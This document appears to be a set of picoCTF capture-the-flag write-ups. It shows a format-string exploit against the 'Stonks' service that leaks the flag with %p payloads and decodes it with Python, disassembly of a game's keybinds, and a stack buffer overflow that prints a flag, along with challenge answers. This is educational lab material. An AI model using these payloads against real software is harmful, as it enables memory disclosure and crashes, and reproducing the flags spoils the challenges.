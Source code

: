 # Stonks

**Flag:** `picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}`

We're given a C source file `vuln.c` and told there's a vulnerability in it. Browsing through it, this code block seems to be the unsafe one

```
    char *user_buf = malloc(300 + 1);
    printf("What is your API token?\n");
    scanf("%300s", user_buf);
    printf("Buying stonks with token:\n");
    printf(user_buf);  ■ Format string is not a string literal (potentially insecure) (fix available)
```

Here, the final `printf` statement is not a literal. My IDE even gives me a warning here. In this, if I use any format specifiers such as `%s`, `%ld` or `%p`, `printf` will treat them as such and then try to access additional information, potentially causing a memory overflow and/or security vulnerabilities.

We're also given a command `nc mercury.picoctf.net 6989` to run the program on the server. We use this method of injecting format specifiers, in it

1. **Using the character sequence specifier `%s`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s%s
Buying stonks with token:
timeout: the monitored command dumped core
```

2. **Using the integer specifier `%d`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d%d
Buying stonks with token:
137020432134524928134515139-134632064-11137011552-134577904-134631993013701568011370204001370204321868786032206820665981240864987867090118349702208124742331601778542892887344842360115-7470979-134391048-13457708840820224010-136086295-134573888-134634048-134635520-7459304-136149363-134634048134516426-74592920-134492407134524928-134635520-134631904-7459240-134468272-134629232408202240-134635520134524928-7459240134515846137011552-7459260-7459240134515689-134634500
Portfolio as of Fri Nov  3 10:50:09 UTC 2023


1 shares of RRJY
4 shares of GKV
1 shares of KQ
108 shares of LE
18 shares of PQ
81 shares of OL
235 shares of TP
18 shares of LKE
72 shares of MLW
Goodbye!
```

3. **Using the pointer specifier `%p`**
```
~ $ nc mercury.picoctf.net 6989
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio

1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
Buying stonks with token:
Buying stonks with token:
0x84c63b00x804b0000x80489c30xf7f68d800xffffffff0x10x84c41600xf7f761100xf7f68dc7(nil)0x84c51800x30x84c63900x84c63b00x6f6369700x7b4654430x306c5f490x345f74350x6d5f6c6c0x306d5f790x5f79336e0x35386130
Portfolio as of Fri Nov  3 11:14:48 UTC 2023


3 shares of LGN
1 shares of PK
22 shares of GM
17 shares of IJV
19 shares of Y
112 shares of PWU
Goodbye!
```

The first attempt gives us nothing, but the second and third give us a sequence of decimals and hexadecimals respectively.

Using the number system converters on [rapidtables](https://www.rapidtables.com/convert/number/), the sequence of decimals seems to give us nothing but meaningless data.

![No data](../Images/dec_to_txt.png)

But for the hexadecimal characters, we get promising results. Cleaning up the hex by removing the digits with a `(nil)` after them and all `0x` indicators except the first one, we get this.

![The result](../Images/hex_to_txt.png)

The flag seems to be, albiet distorted, as `ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}`.

It seems every four characters in the flag are reversed. We write some python to take care of this

```
string = "ocip{FTC0l_I4_t5m_ll0m_y_y3n58a025e3ÿº}"
new_string = ""
tmp = ""

for i in range(len(string)):
    if i % 4 == 0:
        new_string += tmp[::-1]
        tmp = ""

    tmp += string[i]
print(new_string)
```

```
~/Projects $ python3 main.py
picoCTF{I_l05t_4ll_my_m0n3y_0a853e52
```

# babygame01

We're given a connection command to a game with `nc saturn.picoctf.net 55729` and its binary file `game`.

We know we can move the player with the keys 'w', 'a', 's' and 'd'. So we disassemble `game` and look for how a command such as `w` is interpreted.

```
~/Downloads $ objdump -D game | less
```

Searching for the hexadecimal value of 'w' (`0x77`), we find the following instruction

```
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
```

So every keybind in this game is checked using the format `cmp $0xXX,-0xc(%ebp)`, where `XX` is the hexadecimal representation of the key being pressed.

Performing a search for every instruction with the structure above, we get

```
~/Downloads $ objdump -D game | grep 'cmpb.*-0xc(%ebp)'
 804957d:       80 7d f4 6c             cmpb   $0x6c,-0xc(%ebp)
 804958e:       80 7d f4 70             cmpb   $0x70,-0xc(%ebp)
 80495bd:       80 7d f4 77             cmpb   $0x77,-0xc(%ebp)
 80495d2:       80 7d f4 73             cmpb   $0x73,-0xc(%ebp)
 80495e7:       80 7d f4 61             cmpb   $0x61,-0xc(%ebp)
 80495fe:       80 7d f4 64             cmpb   $0x64,-0xc(%ebp)
```

So we get the hex values for the possible keybinds as `0x6c`, `0x70`, `0x77`, `0x73`, `0x61` and `0x64`. Converting them to ASCII leads to the following possible keybinds being discovered

|  Hex | ASCII |
+------+-------+
| 0x6c |   l   |
| 0x70 |   p   |
| 0x77 |   w   |
| 0x73 |   s   |
| 0x61 |   a   |
| 0x64 |   d   |

# buffer overflow 0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}`

Here, we have a simple piece of C code that we need to overflow. The relevant code is this

```
#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
printf("%s\n", flag);
fflush(stdout);
exit(1);
}

void vuln(char *input){
char buf2[16];
strcpy(buf2, input);
}

int main(int argc, char **argv){

FILE *f = fopen("flag.txt","r");
if (f == NULL) {
printf("%s %s", "Please create 'flag.txt' in this directory with your",
"own debugging flag.\n");
exit(0);
}

fgets(flag,FLAGSIZE_MAX,f);
signal(SIGSEGV, sigsegv_handler); // Set up signal handler

gid_t gid = getegid();
setresgid(gid, gid, gid);


printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
}
```

Here, an input of just over 20 characters is enough for it to overflow and give us the flag.

```
~ $ nc saturn.picoctf.net 64712
Input: gbBPmxz01LIlqUWhRTPD
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
